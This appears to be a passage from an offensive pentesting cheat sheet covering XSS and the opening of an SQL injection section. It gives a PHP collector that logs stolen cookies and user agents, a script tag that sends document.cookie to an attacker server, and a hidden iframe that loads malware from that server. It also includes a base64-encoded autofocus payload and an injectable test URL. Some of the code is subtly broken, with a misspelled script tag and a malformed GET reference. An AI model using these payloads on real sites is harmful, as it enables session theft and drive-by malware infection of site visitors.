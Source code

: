 `> cookie.txt` `chmod 777 cookie.txt`

edit a php page like colector.php as follow:

```text
<?php
  $cookie=GET['cookie'];
  $useragent=$_SERVER['HTTP_USER_AGENT'];
  $file=fopen('cookie.txt', 'a');
  fwrite($file,"USER AGENT:$useragent || COOKIE=$cookie\n");
  fclose($file);
?>
```

Script to put in page:

```text
<scritp>new Image().src="http://OUR_SERVER_IP/colector.php?cookie="+document.cookie;</script>
```

**Malware Donwloader via XSS**

```text
<iframe src="http://OUR_SERVER_IP/OUR_MALWARE" height="0" width="0"></iframe>
```

**How to play Mario with XSS**

```text
<iframe src="https://jcw87.github.io/c2-smb1/" width="100%" height="600"></iframe>
```

```text
<input onfocus="document.body.innerHTML=atob('PGlmcmFtZSBzcmM9Imh0dHBzOi8vamN3ODcuZ2l0aHViLmlvL2MyLXNtYjEvIiB3aWR0aD0iMTAwJSIgaGVpZ2h0PSI2MDAiPjwvaWZyYW1lPg==')" autofocus>
```

**XSS payloads**

* [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
* [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)

### SQLI

Sql Injection

#### Sqlmap

**GET**

**Error-Based**

**Simple test**

`Adding a simpe quote '`

Example:

```text
http://192.168.1.104/Less-1/?id=5'
```
